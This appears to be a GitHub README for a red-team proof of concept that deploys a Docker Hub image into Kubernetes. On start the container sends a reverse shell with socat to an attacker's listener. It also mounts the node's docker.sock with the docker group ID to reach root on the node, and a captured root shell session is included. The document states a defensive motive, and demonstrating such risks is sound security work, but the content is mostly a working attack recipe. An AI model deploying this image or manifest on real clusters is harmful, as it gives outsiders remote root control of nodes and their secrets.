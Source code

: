 This is a proof of concept aimed to demonstrate the need to implement containter inspection, network security policies, etc. in a Kubernetes cluster. Also a reminder to always review carefully what a docker container or kubernetes deployment /helm chart.

This deployment launches a docker container available in docker hub as below:

    docker pull jordimiralles/redteam-gkpown:latest

Whem the docker container starts it sends a reverse shell with socat to the specified addres and port. If your destination server is listening for that connection, like this, for example: 

        socat file:`tty`,raw,echo=0 tcp-listen:9532

At this point we have direct access to the docker. The fun part of the deal though is that the deployment also assigned the container the same group id as the kubernetes noes, like this:

(...)
 spec:
      securityContext:
        fsGroup: 412    # Group ID of docker group on k8s nodes.
      containers:
        - name: gkpown
          image: jordimiralles/redteam-gkpown
          imagePullPolicy: Always
          volumeMounts:
            - name: dockersock 
mountPath: "/var/run/docker.sock"
(...)

So we should have access to all the node context.You can check it very easily:
    
    tux at basecamp in ~/code/github/redteam-gkpown (master●●)
    $  socat file:`tty`,raw,echo=0 tcp-listen:9532
    /bin/sh: can't access tty; job control turned off
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # 
    /gkpown # whoami
    root
    /gkpown # df -h
    Filesystem                Size      Used Available Use% Mounted on
    overlay                  25.4G     18.3G      7.0G  72% /
    tmpfs                     6.4G         0      6.4G   0% /dev
    tmpfs                     6.4G         0      6.4G   0% /sys/fs/cgroup
    /dev/sda1                25.4G     18.3G      7.0G  72% /dev/termination-log
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/resolv.conf
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hostname
    /dev/sda1                25.4G     18.3G      7.0G  72% /etc/hosts
    shm                      64.0M         0     64.0M   0% /dev/shm
    tmpfs                     6.4G      2.0M      6.4G   0% /run/docker.sock
    tmpfs                     6.4G     12.0K      6.4G   0% /run/secrets/kubernetes.io/serviceaccount
    tmpfs                     6.4G         0      6.4G   0% /proc/kcore
    tmpfs                     6.4G         0      6.4G   0% /proc/timer_list
    tmpfs                     6.4G         0      6.4G   0% /sys/firmware
